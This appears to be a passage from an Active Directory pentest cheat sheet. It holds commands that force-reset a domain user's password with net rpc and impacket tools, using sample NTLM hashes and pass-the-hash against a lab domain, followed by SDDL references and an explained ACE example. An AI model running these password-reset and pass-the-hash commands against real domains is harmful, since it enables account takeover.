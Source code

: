 ```
$ net rpc password j.doe 'NewPassw0rd!' -U megacorp.local/snovvcrash%'Passw0rd!' -S 192.168.1.11
$ smbpasswd.py -hashes :5fe2a4a4f217609a8e063620954d502a megacorp.local/j.doe@192.168.1.11 -newhashes :fc525c9683e8fe067095ba2ddc971889 -altuser MEGACORP/administrator -althash ce2aa0a2629f80107e8ad6ad6c4f94a3 -admin
$ changepasswd.py megacorp.local/j.doe:'NewPassw0rd!'@DC01.megacorp.local -newhashes :fc525c9683e8fe067095ba2ddc971889 -altuser MEGACORP/administrator -k -no-pass -dc-ip 192.168.1.11 -reset
```




## SDDL

* [https://habr.com/ru/company/pm/blog/442662/](https://habr.com/ru/company/pm/blog/442662/)
* [0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html](https://0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html)
* [0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html](https://0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html)
* [https://itconnect.uw.edu/wares/msinf/other-help/understanding-sddl-syntax/](https://itconnect.uw.edu/wares/msinf/other-help/understanding-sddl-syntax/)
* [https://github.com/t94j0/sddl_py](https://github.com/t94j0/sddl_py)

Let's say that the ACE on object **A** applies to object **B**. This grants or denies object **B** access to object **A** with the specified access rights.

ACE example in SDDL format:

```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)

AceType:
A = ACCESS_ALLOWED_ACE_TYPE

Access rights:
RP = ADS_RIGHT_DS_READ_PROP
WP = ADS_RIGHT_DS_WRITE_PROP
CC = ADS_RIGHT_DS_CREATE_CHILD
DC = ADS_RIGHT_DS_DELETE_CHILD
LC = ADS_RIGHT_ACTRL_DS_LIST
SW = ADS_RIGHT_DS_SELF
RC = READ_CONTROL
WD = WRITE_DAC
WO = WRITE_OWNER
GA = GENERIC_ALL

Ace Sid:
S-1-1-0
```




## Hunt for ACLs


